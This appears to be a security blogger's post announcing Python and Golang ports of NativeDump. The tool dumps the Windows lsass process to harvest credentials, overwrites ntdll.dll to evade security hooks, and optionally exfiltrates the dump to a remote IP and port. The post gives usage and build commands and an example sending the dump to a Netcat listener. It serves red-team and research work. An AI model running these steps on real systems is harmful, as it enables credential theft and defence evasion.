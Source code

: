 ```yaml
---
layout: post
title: NativeDump update - Python and Golang ports
excerpt_separator: <!--more-->
---
```


NativeDump allows to dump the lsass process using only NTAPIs. The original project is written in .NET and has been ported to Python and Golang, allowing file exfiltration and 3 methods for ntdll overwrite (both optional).

<!--more-->


<br>

--------------------------

# Python port - "python-flavour" branch

Repository: [https://github.com/ricardojoserf/NativeDump/tree/python-flavour](https://github.com/ricardojoserf/NativeDump/tree/python-flavour)

This branch implements the same functionality as the main branch using Python3: 

- Minidump file generation using only NTAPIS
- Overwrite the Ntdll.dll library (Optional)
- Exfiltrate the file to another host (Optional)

You can run it as a script:

```
python nativedump.py [-o OPTION] [-k PATH] [-i IP_ADDRESS] [-p PORT_ADDRESS]
```

![pythonexample](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Python1.png)


As an alternative, you can compile it to a single binary using pyinstaller with the "-F" flag:

 ```
pyinstaller -F nativedump.py
```

Or using Nuitka with the "--onefile" flag:

```
nuitka --onefile nativedump.py
```

![pythonexample](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Python2.png)


You can use the *-o* parameter for overwriting the ntdll.dll library:
- "disk": Using a DLL already on disk. If *-k* parameter is not used the path is "C:\Windows\System32\ntdll.dll".
- "knowndlls": Using the KnownDlls folder.
- "debugproc": Using a process created in debug mode. If *-k* parameter is not used the process is "c:\windows\system32\calc.exe"

You can use *-i* (IP address) and *-p* (port) parameters to exfiltrate the file to another host, not creating a local file.

In this example, the ntdll.dll library is overwritten from a debug process, the Minidump file is generated and exfiltrated to 192.168.1.72:1234:

![ntdlloverwrite](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Python3.png)

The Netcat listener receives the file correctly:

![dumpfile](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Python4.png)

<br>


--------------------------

# Golang port - "golang-flavour" branch

Respository: [https://github.com/ricardojoserf/NativeDump/tree/golang-flavour](https://github.com/ricardojoserf/NativeDump/tree/golang-flavour)

This branch implements the same functionality as the main branch using Golang: 

- Minidump file generation using only NTAPIS
- Overwrite the Ntdll.dll library (Optional)
- Exfiltrate the file to another host (Optional)

You can run it as a script:

```
go run nativedump.go [-o OPTION] [-k PATH] [-i IP_ADDRESS] [-p PORT_ADDRESS]
```

![golang1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Golang1.png)


As an alternative, you can compile it to a binary:

 ```
go build
```

![golang2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Golang2.png)

You can use the *-o* parameter for overwriting the ntdll.dll library:
- "disk": Using a DLL already on disk. If *-k* parameter is not used the path is "C:\Windows\System32\ntdll.dll".
- "knowndlls": Using the KnownDlls folder.
- "debugproc": Using a process created in debug mode. If *-k* parameter is not used the process is "c:\windows\system32\calc.exe"

You can use *-i* (IP address) and *-p* (port) parameters to exfiltrate the file to another host, not creating a local file.

In this example, the ntdll.dll library is overwritten from a debug process, the Minidump file is generated and exfiltrated to 192.168.1.72:1234:

![ntdlloverwrite](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Golang3.png)

The Netcat listener receives the file correctly:

![dumpfile](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Golang4.png)

<br>
